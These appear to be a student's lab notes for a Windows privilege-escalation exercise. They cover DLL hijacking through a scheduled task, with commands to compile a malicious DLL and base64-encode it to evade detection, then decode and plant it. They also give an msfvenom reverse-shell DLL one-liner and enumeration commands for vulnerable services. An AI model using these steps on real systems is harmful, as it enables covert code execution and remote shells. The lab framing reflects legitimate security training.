 Run `sudo apt-get install mingw-w64 mingw-w64-common mingw-w64-i686-dev mingw-w64-tools mingw-w64-tools mingw-w64-x86-64-dev -y`
Run `i686-w64-mingw32-g++ -c bad.c -o bad.o`
Run `i686-w64-mingw32-g++ -shared -o bad.dll bad.o -Wl,--out-implib,bad.a`
Run `base64 bad.dll > base64dll` Encodes it to base 64 to prevent detection 
Run `xclip -sel c -i base64dll ` Copies it to clipboard


8. Step 8. Go to the windows machine and open notepad. 

9. Step 9. Paste the copied base64dll and save it as base64dll.txt in documents. 

10. Step 10. Go to the location of the text `cd C:\Users\student.DESKTOP-51TGRU5\Documents\`

11. Step 11. Generate a dll -> C:\Users\student.DESKTOP-51TGRU5\Documents>`certutil -decode base64dll.txt SSPICLI.dll`

12. Step 12. Go to the location of the exercise_2 folder where the putty file rescided -> C:\Users\student.DESKTOP-51TGRU5\Documents> `copy SSPICLI.dll "c:\users\student\exercise_2\SSPICLI.dll"\`

13. Step 13. Go to Task Schedular:
    Right click on test_app -> Click End
    Right click on test_app -> Click Run 

14. Step 14. Check the location where the file was stored in the C code i.e. -> `C:\Users\DemoAdmin\` and you will find the FINDME_1 saved here which is the command on the C file. 

### OTHER NOTES ###

WinExec -> windows execution .exe. Prebuilt by microsoft. First argument is the one we are interested in manipulating. 

5. Alternative method for DLL creation using MSFVenom -> creates a reverse_tcp -> msfvenom -p windows/shell_reverse_tcp LHOST=10.50.x.x LPORT=4444 -f dll > bad.dll

6. `base64 bad.dll >base64dll` # Generate a base64 dll....why????

7. `xclip -sel c -i base64dll` # reads the output to your clipboard -> doing this so that the defender doesn't catch it. 


### FOR REPLACING EXECUTABLES THIS IS WHERE YOU SHOULD GO ###
C:Program Files/7Zip/
    Rename 7Zip.exe -> Makes the file not possible to run. 


If you wanna find out where someone has installed persistence go to registry. 

### SYSTEM USAGE ###


DEMO: Finding vulnerable Scheduled Tasks `schtasks /query /fo LIST /v`

DEMO: Finding Vulnerable Services
    `wmic service list full`
    `sc query`

Checking system resources -> 
    `wmic`
    `net`
    `netstat`
